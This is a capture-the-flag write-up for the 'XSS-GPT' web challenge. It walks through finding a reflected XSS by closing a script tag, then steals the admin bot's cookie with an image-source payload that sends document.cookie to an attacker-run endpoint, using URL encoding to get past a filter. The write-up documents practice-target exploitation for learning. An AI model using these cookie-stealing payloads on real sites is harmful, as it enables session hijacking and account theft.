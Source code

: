 ```yaml
---
layout: post
title: "Web : XSS-GPT (SKR CTF)"
date: 2023-09-30
categories: ["CTF", "Web"]
---
```

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-instruction.png){:.align-center}

This is a Web category challenge. From the name of this challenge, we know that this challenge involves exploiting a Cross-Site Scripting (XSS) vulnerability. The instructions said "*I built a chatgpt website*" and "*report to me if you found any bug*". This means that he is the administrator of the website, and if we found an  XSS vulnerability in the website, we need to report it to him. The website :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webpage.png){:.align-center}

The webpage looks like it's a chat application, which looks a little similar to ChatGPT. Testing this chat application :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-webpage.png){:.align-center}

It looks like the website asks for an API key before the user can use this web-based chat application. If we look at the HTML code of this website, we found that we don't need a real OpenAI API key because this website uses a placeholder value `("Bearer None")` for the API key, which is not a valid API key. Try to use `test123` for the API key :

- `http://skrctf.me:4000/?apiKey=test123`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-api-key-failed.png){:.align-center}

The first hint indicates that we should manipulate the URL parameter :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint1.png){:.align-center}

This challenge is named "XSS-GPT", so we can focus on finding the XSS vulnerability on this website. Testing a basic XSS attack :

- `<script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-result.png){:.align-center}

We get an error-like message. However, it's not an error. HTML code :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-html.png){:.align-center}

At line 11, the  opening `<script>` tag was used. The tag was then closed by our basic XSS script (`</script>`). Everything after the closing tag will become the content of the website. So we need to add the closing tag (`</script>`) before our XSS script :

- `</script><script>alert("basic-xss")</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-test-basic-xss-success.png){:.align-center}

We successfully triggered a Reflected XSS. This means that we have found a Reflected XSS vulnerability. So we need to report to the admin of the website. There is a button named "*Report Admin*" at the bottom right :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button.png){:.align-center}

We need to know what this button does (in the HTML code) :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-button-source.png){:.align-center}

It looks like the button executes `reportAdmin()` function. So we need to know what this function does. In the HTML code, before the HTML Style :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-function.png){:.align-center}

In `reportAdmin()` function :

1) **API Key Extraction** : The function extracts the API key from the URL using `const queryParams = URLSearchParams(window.location.search);` and `const apiKey = queryParams.get("apiKey")`.
2) **XHR Request** : It creates an XMLHttpRequest object (`xhttp`) to send a POST request to the "`reportAdmin`" endpoint.
3) **Request Data** : It sends the API key as a parameter in the request body using `xhttp.send("key="+encodeURIComponent(apiKey));`.
4) **Response Handling** : The function listens for the response and displays an alert message with "*Reported to admin!*" if the response status is 200.

The second hint indicates that we need to steal admin's cookie :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-hint2.png){:.align-center}

Under the second hint, we were given a JavaScript file, "*bot.js*" :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-bot-js.png){:.align-center}

The provided JavaScript file appears to be a PhantomJS script. PhantomJS is a **headless web browser scriptable with JavaScript**, often used for automation tasks. So this "*bot.js*" is a piece of PhantomJS script behind the website that acts as "*admin*" (the admin is a bot). The script uses `phantom.adCookie` to set a cookie named '*flag*' with a value of '*this_is_not_the_flag*'. This information indicates that the value of admin's cookie is our flag. So we need to steal the admin's cookie.

We can ease our task with Burp Suite. Intercepting a request :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-foxy.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-intercept.png){:.align-center}

Right-click on Burp Suite > Send to Repeater. Go to the Repeater tab. Now we can modify the request body with our XSS script. First, we need to test if our server endpoint receives a GET request from admin. We can use [Webhook.site](https://webhook.site/) as our server endpoint to monitor any request  :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-webhook.png){:.align-center}

Use the unique URL provided in [Webhook.site](https://webhook.site/) as our server endpoint :

- `</script><script>var i=new Image;i.src="http://our-server-endpoint";</script>`
- [Steal Cookie with Reflected XXS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md)

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss.png){:.align-center}

As we can see, our server endpoint received a GET request from admin :

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-triggered.png){:.align-center}

Now, we can add `+document.cookie;` in our XSS script. However, after we inject our XSS script with `+document.cookie;` and get the "*Reported to admin!*" message (which indicates that the injection was successful), our server endpoint no longer receives a GET request from admin. This indicates that there is some kind of input filtering that filters `+document.cookie;`. We can use basic encoding, such as URL encoding. On Burp Suite, highlight `+document.cookie;`, right-click > Convert selection > URL > URL-encode key characters.

- `</script><script>var i=new Image;i.src="http://our-server-endpoint/?"+document.cookie;</script>`

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie.png){:.align-center}

![](https://raw.githubusercontent.com/faridarif/faridarif.github.io/master/pictures/xss-gpt-report-admin-xss-steal-cookie-success.png){:.align-center}

We successfully steal the admin's cookie!
## Walkthrough

https://drive.google.com/file/d/1-zrxlZRYWRVV7-kFzA0mA6ENO9XpE6HR/view?usp=drivesdk

